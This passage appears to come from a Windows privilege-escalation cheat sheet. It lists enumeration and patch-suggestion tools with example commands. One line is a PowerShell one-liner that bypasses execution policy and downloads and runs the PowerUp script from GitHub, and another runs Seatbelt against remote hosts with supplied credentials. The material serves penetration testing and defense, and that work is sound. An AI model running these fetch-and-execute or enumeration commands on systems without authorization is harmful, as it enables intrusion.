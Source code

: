     * [MS16-032](#ms16-032---microsoft-windows-7--10--2008--2012-r2-x86x64)
    * [MS17-010 (Eternal Blue)](#ms17-010-eternal-blue)
    * [CVE-2019-1388](#cve-2019-1388)
* [EoP - $PATH Interception](#eop---path-interception)
* [References](#references)

## Tools

- [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)
    ```powershell
    powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
    ```
- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)
    ```powershell
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
    ```
- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
    ```powershell
    ./windows-exploit-suggester.py --update
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
    ```
- [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
- [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
- [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
- [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)
    ```powershell
    Seatbelt.exe -group=all -full
    Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
    Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
    ```
- [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
- [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
    ```powershell
    powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
    ```
- [winPEAS - Windows Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
- [Windows Exploit Suggester - Next Generation (WES-NG)](https://github.com/bitsadmin/wesng)
    ```powershell
    # First obtain systeminfo
    systeminfo
    systeminfo > systeminfo.txt
    # Then feed it to wesng
    python3 wes.py --update-wes
    python3 wes.py --update
    python3 wes.py systeminfo.txt
    ```